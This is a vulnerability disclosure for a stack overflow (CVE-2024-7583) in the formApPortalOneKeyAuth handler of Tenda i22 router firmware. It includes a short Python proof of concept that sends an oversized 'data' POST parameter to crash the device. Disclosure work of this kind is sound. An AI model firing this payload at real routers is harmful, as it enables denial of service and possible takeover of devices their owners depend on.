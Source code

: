 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalOneKeyAuth` function. This function accepts the `data` parameter from a POST request. The parameter is later copied by `strcpy` or `sprintf` to a variable on the stack (`v19` ) , causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalOneKeyAuth"
payload = b"a"*0x6000

data = {
    "data": payload
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)

## CVE

CVE-2024-7583